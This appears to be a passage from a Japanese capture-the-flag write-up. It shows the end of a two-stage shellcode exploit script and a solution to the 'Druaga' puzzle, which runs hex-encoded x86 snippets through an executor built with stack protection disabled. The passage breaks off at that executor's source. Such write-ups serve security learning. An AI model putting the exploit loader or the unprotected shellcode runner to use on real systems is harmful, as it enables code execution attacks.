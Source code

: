 exploit:

    #!/usr/bin/python
    import pack
    import sys
     
    #stage1
    buf = open("shellcode_stage1", "rb").read()
    sys.stdout.write(pack.pl32(len(buf)))
    sys.stdout.write(buf)
     
    #stage2
    buf = open("shellcode_stage2", "rb").read()
    sys.stdout.write(buf)

### Druaga

ドルアーガの塔

サーバーからダウンロードできる yuko\_oshima.binはtruecryptのボリュームらしい。

展開するとキーワードとzipが出てくる。

    $ nkf KEY\{OoiOtya\}.txt 
    Linux/x86環境にて 0609 と表示するアセンブラ短歌を探し出し
    そのアセンブラ短歌が書かれた画像の MD5値 を求めよ！

    KEY{MD5(taka.jpg)}

    ※）アルファベットは小文字

    Enjoy Hacking! :)

朝起きたらすでにチームメイトが画像をテキストに変換するコードを完成させていたので、3/
を変換して下のコードで実行させてみたら 0609 が出てきた。運が良かった。

    #!/usr/bin/python
    import subprocess
    import sys
    import binascii
    for path in sys.stdin:
        path = path.rstrip()
     
        tanka = open(path, "r").read()
        if ("cd80" in tanka) or ("0f05" in tanka):
            tanka_unhexed = binascii.unhexlify(tanka)
            print "execute " + path
            #途中で無限ループする短歌が出てくるので実行時間を制限する
            p = subprocess.Popen("ulimit -t 2 && ./executor 2>/dev/null", shell=True, stdin=subprocess.PIPE)
            p.stdin.write(tanka_unhexed)
            p.stdin.flush()
            p.stdin.close()
            p.wait()



    //gcc -m32 -fno-stack-protector -z execstack executor.c -o executor
    #include <stdio.h>
    #include <string.h>
     